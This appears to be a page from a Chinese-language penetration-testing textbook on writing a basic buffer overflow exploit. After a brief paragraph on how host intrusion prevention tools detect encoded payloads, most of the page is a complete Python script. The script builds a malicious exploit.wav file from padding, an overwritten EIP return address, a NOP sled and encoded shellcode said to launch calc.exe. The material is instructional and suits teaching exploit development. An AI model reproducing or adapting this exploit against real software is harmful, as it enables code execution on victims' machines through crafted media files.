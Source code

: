 几年前，HIPS 中的基本特征分析可能没有发现漏洞，因为它与非常特定的特征不匹配。如今，安全工具开发人员已经变得越来越好，触发器在设计上更具分析性。因此，编码器帮助阻止 HIPS 解决方案捕获漏洞的谬误终于消失了。

![Writing a basic buffer overflow exploit](img/image00396.jpeg)

我们利用`calc.exe`代码进行的新攻击如下所示：

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xda\xd3\xd9\x74\x24\xf4\xb8\x2c\xde\xc4\x11\x5a\x29\xc9\xb1"
"\x31\x31\x42\x18\x03\x42\x18\x83\xea\xd0\x3c\x31\xed\xc0\x43"
"\xba\x0e\x10\x24\x32\xeb\x21\x64\x20\x7f\x11\x54\x22\x2d\x9d"
"\x1f\x66\xc6\x16\x6d\xaf\xe9\x9f\xd8\x89\xc4\x20\x70\xe9\x47"
"\xa2\x8b\x3e\xa8\x9b\x43\x33\xa9\xdc\xbe\xbe\xfb\xb5\xb5\x6d"
"\xec\xb2\x80\xad\x87\x88\x05\xb6\x74\x58\x27\x97\x2a\xd3\x7e"
"\x37\xcc\x30\x0b\x7e\xd6\x55\x36\xc8\x6d\xad\xcc\xcb\xa7\xfc"
"\x2d\x67\x86\x31\xdc\x79\xce\xf5\x3f\x0c\x26\x06\xbd\x17\xfd"
"\x75\x19\x9d\xe6\xdd\xea\x05\xc3\xdc\x3f\xd3\x80\xd2\xf4\x97"
"\xcf\xf6\x0b\x7b\x64\x02\x87\x7a\xab\x83\xd3\x58\x6f\xc8\x80"
"\xc1\x36\xb4\x67\xfd\x29\x17\xd7\x5b\x21\xb5\x0c\xd6\x68\xd3"
"\xd3\x64\x17\x91\xd4\x76\x18\x85\xbc\x47\x93\x4a\xba\x57\x76"
"\x2f\x34\x12\xdb\x19\xdd\xfb\x89\x18\x80\xfb\x67\x5e\xbd\x7f"
"\x82\x1e\x3a\x9f\xe7\x1b\x06\x27\x1b\x51\x17\xc2\x1b\xc6\x18"
"\xc7\x7f\x89\x8a\x8b\x51\x2c\x2b\x29\xae")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

